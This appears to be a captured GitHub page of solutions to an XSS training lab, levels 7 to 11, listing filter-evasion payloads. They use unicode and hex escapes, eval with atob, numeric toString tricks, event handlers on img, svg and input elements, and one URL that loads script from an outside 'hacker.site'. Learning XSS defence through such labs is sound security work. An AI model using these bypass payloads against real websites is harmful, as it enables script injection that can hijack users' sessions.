 ```js
<script>\u0061lert('l33t')</script>
```

### 7 - No Unicode escaping / no alert

```js
<script>eval('\x61lert(\'l33t\')')</script>
```

### 8 - No alert / no products

```js
[NL]eval('x61lert(\'l33t\')'
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```

### 9 - stronger bypass - no alert / no products

```js
[\u2028]eval('x61lert(\'l33t\')'
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```

### 10 - no string / no alert /

```js
<script>eval(8680439..toString(30))(983801..toString(36))</script>
```

### 11 - no scripts / dont break src tag

```js
http://11.xss.labs%2f@hacker.site/X.js
```

